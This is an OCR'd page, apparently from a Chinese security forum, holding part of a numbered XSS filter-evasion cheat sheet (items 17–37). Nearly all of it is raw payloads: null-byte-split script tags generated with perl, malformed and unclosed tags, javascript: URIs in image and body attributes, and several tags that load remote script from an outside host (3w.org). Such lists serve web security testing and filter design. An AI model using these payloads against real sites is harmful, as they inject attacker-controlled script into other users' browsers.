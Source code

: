 ```

(17)空字符 12-7-1 T00LS - Powered by Discuz! Board
https://www.a.com/viewthread.php?action=printable&tid=15267 2/6perl -e 'print "<IMG
SRC=java\0script:alert(\"XSS\")>";' > out

(18)空字符 2,空字符在国内基本没效果.因为没有地方可以利用
perl -e 'print "<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>";' > out

(19)Spaces 和 meta 前的 IMG 标签
<IMG SRC=" javascript:alert('XSS');">

(20)Non-alpha-non-digit XSS
<SCRIPT/XSS SRC="http://3w.org/XSS/xss.js"></SCRIPT>

(21)Non-alpha-non-digit XSS to 2
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(22)Non-alpha-non-digit XSS to 3
<SCRIPT/SRC="http://3w.org/XSS/xss.js"></SCRIPT>

(23)双开括号
<<SCRIPT>alert("XSS");//<</SCRIPT>

(24)无结束脚本标记(仅火狐等浏览器)
<SCRIPT SRChttp://3w.org/XSS/xss.js?<B>

(25)无结束脚本标记 2
<SCRIPT SRC=//3w.org/XSS/xss.js>

(26)半开的 HTML/JavaScript XSS
<IMG SRC="javascript:alert('XSS')"

(27)双开角括号
<iframe src=http://3w.org/XSS.html <

(28)无单引号 双引号 分号
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

(29)换码过滤的 JavaScript
\";alert('XSS');//

(30)结束 Title 标签
</TITLE><SCRIPT>alert("XSS");</SCRIPT>

(31)Input Image
<INPUT SRC="javascript:alert('XSS');">

(32)BODY Image
<BODY BACKGROUND="javascript:alert('XSS')">

(33)BODY 标签
<BODY('XSS')>

(34)IMG Dynsrc
<IMG DYNSRC="javascript:alert('XSS')">

(35)IMG Lowsrc
<IMG LOWSRC="javascript:alert('XSS')">

(36)BGSOUND
<BGSOUND SRC="javascript:alert('XSS');">

(37)STYLE sheet
```